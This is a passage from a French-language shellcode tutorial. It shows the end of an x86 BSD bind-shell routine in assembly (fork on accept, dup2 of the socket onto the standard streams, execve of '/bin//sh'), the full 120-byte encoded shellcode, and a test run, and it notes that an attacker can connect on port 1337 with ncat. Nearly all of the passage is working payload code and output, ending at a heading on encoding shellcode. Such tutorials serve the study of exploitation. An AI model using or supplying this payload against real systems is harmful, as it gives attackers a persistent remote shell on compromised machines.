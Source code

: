 	or eax, eax       ; le processus fils retourne sur le accept()
	jz .ACCEPT

	xor ecx, ecx      ; dup2 STDERR, STDIN, STDOUT
	.L:
	push ecx
	push edi
	xor eax, eax
	mov al, 90        ; dup2(sock, ecx)
	push eax
	int 0x80
	inc cl
	cmp cl, 3
	jne .L

	xor eax, eax
	push eax          ; nul byte
	push '//sh'
	push '/bin'       ; On stock la chaine sur la pile

	mov ebx, esp      ; Pointeur sur '/bin//sh'
	push eax          ; argv[1] = NULL
	push ebx          ; argv[0] = '/bin//sh'
	mov ecx, esp      ; ecx = argv
	push eax          ; Empile env (NULL)
	push ecx          ; Empile argv
	push ebx          ; Empile '/bin//sh'
	mov al, 59        ; Appel system execve() 
	push eax          ; PADDING
	int 0x80

	jmp .ACCEPT       ; On retourne sur le accept()

Testons :

	:::console
	[tosh@localhost /usr/home/tosh]$ shelltest test
	Len : 120 bytes
	Shellcode : \x31\xc0\x50\x40\x50\x40\x50\x50\xb0\x61\xcd\x80\x89\xc6\x31\xc0\x50\x66\x68\x05\x39\x66
	\x68\x01\x02\x89\xe1\x6a\x10\x51\x56\x50\xb0\x68\xcd\x80\x31\xc0\xb0\x05\x50\x56\x50\xb0\x6a\xcd\x80
	\x31\xc0\x50\x50\x56\x50\xb0\x1e\xcd\x80\x89\xc7\x31\xc0\x50\xb0\x02\xcd\x80\x09\xc0\x74\xe9\x31\xc9
	\x51\x57\x31\xc0\xb0\x5a\x50\xcd\x80\xfe\xc1\x80\xf9\x03\x75\xf0\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68
	\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x51\x53\xb0\x3b\x50\xcd\x80\xe9\xb7\xff\xff\xff

Nous pouvons maintenant nous connecter sur le port 1337 avec ncat, et quitter le shell ne termine pas le shellcode.

Bon, bien sûr, la taille peut être optimisé ici. De plus, ici ce n'est pas super propre, car si y'a de nombreuses connexions sur le shellcode, il finira par planter, étant donné que je ne nettoie pas la pile à chaque appel à execve. Mais bon, pour un shellcode ça ira bien comme ça...
Encoder un shellcode
